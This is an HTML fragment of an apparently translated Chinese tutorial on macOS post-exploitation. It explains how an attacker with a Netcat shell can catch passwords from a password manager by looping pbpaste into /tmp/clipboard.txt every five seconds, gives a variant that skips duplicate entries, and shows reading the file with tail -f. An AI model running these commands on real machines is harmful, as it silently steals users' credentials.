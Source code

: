   </p>
  <p class="graf graf--p">
   MacOS 在防范键盘记录器方面已经变得更好了，任何人在直播桌面时都无法透露存储在密码管理器中的凭证。
  </p>
  <p class="graf graf--p">
   攻击者可以将剪贴板转储到本地文件中，并偶尔检查它是否有新的密码。一个延时5秒的无限
   <a class="markup--anchor markup--p-anchor" data-href="https://linux.die.net/Bash-Beginners-Guide/sect_09_02.html" href="https://linux.die.net/Bash-Beginners-Guide/sect_09_02.html" rel="noopener noreferrer" target="_blank">
    while 循环
   </a>
   应该可以做到这一点。
  </p>
  <pre class="graf graf--pre"><code>~$ while true; do echo -e "\n$(pbpaste)" &gt;&gt;/tmp/clipboard.txt &amp;&amp; sleep 5; done</code></pre>
  <p class="graf graf--p">
   while 循环将执行 pbpaste；循环中的命令会不断重复，反复转储剪贴板中的任何内容。引入一个
   <strong class="markup--strong markup--p-strong">
    echo
   </strong>
   ，以在每一个条目中创建一个新行 (
   <strong class="markup--strong markup--p-strong">
    \n
   </strong>
   )，以防止数据在同一行中连接。
  </p>
  <p class="graf graf--p">
   在其他 Netcat shell 中，使用
   <strong class="markup--strong markup--p-strong">
    cat
   </strong>
   或
   <strong class="markup--strong markup--p-strong">
    tail
   </strong>
   来查看剪贴板.txt文件的内容。
  </p>
  <pre class="graf graf--pre"><code>~$ tail -f /tmp/clipboard.txt</code></pre>
  <p class="graf graf--p">
   tail 后跟 (-f) 将更改附加到文件，并立即打印剪贴板中发现的新内容。
  </p>
  <p class="graf graf--p">
   通过评估剪贴板内容并与文件中的最后一条内容进行比较，防止clipboard .txt 文件被重复的行数淹没。
  </p>
  <pre class="graf graf--pre"><code>~$ while true; do if [[ "$(pbpaste)" != "$(tail -n1 /tmp/clipboard.txt)" ]]; then echo -e "\n$(pbpaste)" &gt;&gt;/tmp/clipboard.txt; fi &amp;&amp; sleep 5;done</code></pre>
  <p class="graf graf--p">
   只有当当前剪贴板内容与 .txt 中的最后一条内容 (
   <strong class="markup--strong markup--p-strong">
    tail -n1
   </strong>
   ) 不相等 (
   <strong class="markup--strong markup--p-strong">
    !=
   </strong>
   ) 时，pbpaste 才会更新文件。
  </p>
  <p class="graf graf--p">
   然而，这个解决方案一定程度上存在缺陷。
   <strong class="markup--strong markup--p-strong">
    if
   </strong>
   语句只比较 .txt 文件的最后一行，所以如果其中有有多行，它就不能识别为重复条目。但对于本文和大多数场景来说，它都达到了目的。